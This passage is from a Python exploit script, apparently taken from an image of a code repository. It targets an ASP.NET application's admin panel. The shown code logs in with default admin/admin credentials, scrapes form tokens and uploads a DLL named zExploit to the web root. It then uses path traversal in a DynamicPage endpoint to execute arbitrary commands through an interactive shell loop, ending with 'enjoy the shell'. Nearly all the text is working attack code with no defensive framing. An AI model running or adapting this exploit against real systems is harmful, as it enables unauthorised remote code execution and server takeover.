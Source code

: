 ```python

    view_state = response.text.split('id="__VIEWSTATE" value="')[1].split('"')[0]
    event_validation = response.text.split('id="__EVENTVALIDATION" value="')[1].split('"')[0]
    data = {
        '__VIEWSTATE': view_state,
        '__EVENTVALIDATION': event_validation,
        'folderName':'C:\inetpub\wwwroot\Test', #
        'btnConvert': 'Upload'
    }

    test_file = open(filename, "rb")
    upload_data = {'fileUpload': open(filename,'rb')}
    r = sess.post(url + "/Admin/UploadImage", data=data, files = {"fileUpload": test_file})
    print("[-] Uploading DLL...")

def trigger(cmd):
    data = {
        "fileName":"../Test/zExploit",
        "cmd":cmd
    }
    r = sess.post(url + '/Admin/DynamicPage', data=data)
    print(r.text)

Login('admin','admin')
uploadDLL("zExploit.zip")

print("[-] Done, enjoy the shell")
while True:
    cmd = input("$ ")
    trigger(cmd)
```


